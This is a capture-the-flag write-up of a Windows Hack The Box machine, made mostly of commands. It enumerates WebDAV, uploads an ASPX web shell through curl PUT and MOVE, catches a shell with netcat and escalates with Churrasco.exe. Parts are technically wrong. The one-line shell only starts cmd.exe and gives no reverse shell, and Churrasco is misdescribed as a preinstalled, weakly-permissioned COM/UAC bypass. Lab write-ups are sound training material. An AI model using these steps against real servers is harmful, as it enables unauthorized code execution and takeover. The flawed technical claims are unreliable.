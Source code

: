 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used**:  
  - Protocol WebDAV PUT/MOVE  
  - File extension bypass via `.txt → .aspx`  
  - Local PrivEsc using `Churrasco.exe`  
- **Open Ports:**  
  - [HTTP](HTTP.md) 80/tcp  

---

## TLDR 🚀
- **Find** WebDAV enabled on the web server (allows PUT/MOVE).  
- **Upload** a simple ASPX web‑shell disguised as `.txt`, then **MOVE** it to `.aspx`.  
- **Invoke** the shell for remote code execution and grab a low‑privilege shell.  
- **Enumerate** locally, discover `Churrasco.exe` installed with weak permissions.  
- **Run** `Churrasco.exe` to escalate to SYSTEM.  

---

## Recon & Enumeration 🕵️‍♂️

1. **Port scan** (HTTP only):  
   ```bash
   nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212
   ```
   - Shows `OPTIONS`, `GET`, `HEAD`, **`PUT`**, **`MOVE`**, etc. indicating WebDAV support.

2. **Directory brute-forcing** (optional):  
   ```bash
   gobuster dir -u http://10.129.83.212/ -w /usr/share/wordlists/common.txt -x txt,aspx
   ```
   - No obvious upload form—WebDAV is the vector.

3. **Confirm WebDAV** with a simple `OPTIONS` request:  
   ```bash
   curl -i -X OPTIONS http://10.129.83.212/
   ```
   - Look for `DAV: 1,2` in the response headers.

---

## Exploitation 🚀

### 1. WebDAV Upload & File‑Extension Bypass  
1. **Craft** a minimal ASPX web‑shell (`shell.txt`):
   ```asp
   <% System.Diagnostics.Process.Start("cmd.exe"); %>
   ```
2. **Upload** it to the server (anonymous WebDAV):
   ```bash
   curl -v -T shell.txt http://10.129.83.212/shell.txt
   ```
3. **Rename** it to `.aspx` so IIS will execute it:
   ```bash
   curl -v -X MOVE \
     -H "Destination: http://10.129.83.212/shell.aspx" \
     http://10.129.83.212/shell.txt
   ```
4. **Trigger** the shell:
   - Point your browser or use `curl`:
     ```bash
     curl http://10.129.83.212/shell.aspx
     ```
   - You’ll get a **reverse shell** if you’ve got a listener ready.

5. **Listener** on your machine:
   ```bash
   nc -lvnp 4444
   ```
   - Connects back as a low‑privilege Windows user.

---

## Local Privilege Escalation 🔒 → 🔓

1. **Basic enumeration**:
   ```powershell
   whoami /priv
   dir "C:\Program Files" | findstr /i Churrasco
   ```
2. **Discover** `C:\Program Files\Churrasco\Churrasco.exe` with **weak ACLs** (everyone can execute).
3. **Exploit** with the official tool:
   ```powershell
   cd "C:\Program Files\Churrasco"
   .\Churrasco.exe
   ```
   - This leverages a known COM/UAC bypass to spawn a SYSTEM shell.
4. **Verify** SYSTEM:
   ```powershell
   whoami
   # → nt authority\system
   ```

---

## Tools 🛠️
- **nmap** – port & WebDAV enumeration  
- **gobuster** – directory brute‑forcing  
- **curl** – WebDAV PUT/MOVE & shell trigger  
- **netcat** – reverse shell listener  
- **Churrasco.exe** – local PrivEsc  

---

## Commands to Solve Box 📝

```bash
# 1. Scan for WebDAV support
nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212

# 2. Upload web‑shell disguised as .txt
curl -v -T shell.txt http://10.129.83.212/shell.txt

# 3. Rename to .aspx
curl -v -X MOVE \
  -H "Destination: http://10.129.83.212/shell.aspx" \
  http://10.129.83.212/shell.txt

# 4. Trigger shell (in another terminal)
nc -lvnp 4444

# 5. On the box, enumerate for Churrasco.exe
whoami & whoami /priv
dir "C:\Program Files" | findstr /i Churrasco

# 6. Run Churrasco for SYSTEM
cd "C:\Program Files\Churrasco"
.\Churrasco.exe
whoami  # should return nt authority\system
```

---

## Actions Learned 💡
- How to **leverage WebDAV** on IIS for anonymous file upload (PUT/MOVE).  
- Trick IIS into executing a file by **bypassing extension restrictions** (`.txt` → `.aspx`).  
- Basic Windows **local enumeration** to spot weakly‑permissioned binaries.  
- Use of **Churrasco.exe** for UAC/COM bypass to escalate from a regular user to SYSTEM.

---

## References 📚
- WebDAV PUT/MOVE on IIS:  
  – https://docs.microsoft.com/en-us/iis/configuration/system.webserver/webdav  
- HTTP Methods enumeration with Nmap:  
  – https://nmap.org/nsedoc/scripts/http-methods.html  
- Churrasco Privilege Escalation:  
  – https://github.com/adamd00/Churrasco  
- HTB WebDAV write‑up examples:  
  – https://0xdf.gitlab.io/ (for inspiration)  
